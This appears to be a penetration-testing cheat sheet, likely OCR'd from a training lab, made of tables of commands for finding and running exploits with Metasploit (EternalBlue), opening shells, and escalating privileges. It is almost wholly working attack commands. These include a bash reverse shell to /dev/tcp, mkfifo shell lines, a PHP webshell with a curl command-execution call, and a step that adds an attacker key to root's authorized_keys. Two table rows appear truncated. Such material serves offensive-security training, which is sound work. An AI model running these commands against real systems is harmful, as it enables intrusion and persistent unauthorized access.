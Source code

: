 |**Command**|**Description**|
|---|---|
|searchsploit openssh 7.2|Search public exploits|
|msfconsole|Start Metasploit Framework|
|search exploit eternalblue|Search in MSF|
|use exploit/windows/smb/ms17_010_psexec|Start using an MSF module|
|show options|Show required options for the module|
|set RHOSTS 10.10.10.40|Set module option|
|check|Test if target is vulnerable|
|exploit|Run the exploit|

---

## **Using Shells**

|**Command**|**Description**|
|---|---|
|nc -lvnp 1234|Start a netcat listener on local port|
|bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'|Send a reverse shell from remote|
|`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|
|`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/bash -i 2>&1|
|nc 10.10.10.1 1234|Connect to a bind shell on remote|
|python -c 'import pty; pty.spawn("/bin/bash")' then Ctrl+Z → stty raw -echo → fg → press Enter twice|Upgrade shell TTY (1)|
|echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php|Create a PHP webshell|
|curl http://SERVER_IP:PORT/shell.php?cmd=id|Execute command on uploaded webshell|

---

## **Privilege Escalation**

|**Command**|**Description**|
|---|---|
|./linpeas.sh|Run linPEAS to enumerate target|
|sudo -l|List available sudo privileges|
|sudo -u user /bin/echo Hello World!|Run a command as another user (example)|
|sudo su -|Switch to root (if allowed)|
|sudo su user -|Switch to another user (if allowed)|
|ssh-keygen -f key|Create a new SSH key (private = key, pub = key.pub)|
|echo "ssh-rsa AAAAB...SNIP... user@parrot" >> /root/.ssh/authorized_keys|Add public key to user’s authorized_keys|
|ssh root@10.10.10.10 -i key|SSH using generated private key|

---